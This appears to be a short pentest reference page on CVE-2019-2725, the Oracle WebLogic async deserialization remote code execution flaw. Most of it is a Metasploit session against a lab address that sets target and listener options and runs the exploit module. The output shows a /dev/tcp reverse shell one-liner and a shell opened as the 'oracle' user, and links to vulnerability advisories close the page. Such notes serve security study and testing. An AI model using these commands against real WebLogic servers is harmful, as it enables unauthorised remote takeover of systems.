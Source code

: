 ```yaml
---
title : "CVE-2019-2725"
# pre : ' '
description : "Oracle WebLogic WLS9-async Remote Code Execution."
date : 2020-05-06T10:53:14+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-2725 - Oracle WebLogic WLS9-async Remote Code Execution

### Exploit

```plain
msf5 use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 10.10.10.13
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rport 7102
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set ssl true
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 10.10.10.1
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[+] 0<&218-;exec 218<>/dev/tcp/10.10.10.13/4444;sh <&218 >&218 2>&218
[*] Started reverse TCP handler on 10.10.10.1:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.10.13:21207) at 2020-05-06 09:46:12 +0200

whoami
oracle
```

## URL List

- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-2725)
- [Oracle.com](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
- [Tenable.com](https://www.tenable.com/cve/CVE-2019-2725)
